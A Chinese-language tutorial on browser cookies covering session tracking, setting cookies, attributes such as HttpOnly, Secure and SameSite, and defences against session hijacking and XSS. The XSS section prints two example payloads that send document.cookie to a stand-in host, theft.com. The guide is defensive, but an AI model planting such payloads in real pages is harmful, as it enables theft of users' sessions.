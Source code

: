 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 值为未来的时间长度，单位为S，表示过期的时间长度<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>
`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>
`3. 删除cookie时，domain和path需要一致`<br>
`4. httponly只能通过服务端Set-Cookie设置`<br>
## Cookie安全
#### session hijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

1.可以使用https加密传输，同时设置secure只能通过https进行传输<br>
2.随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
#### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```

**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.控制执行**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 注意使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取

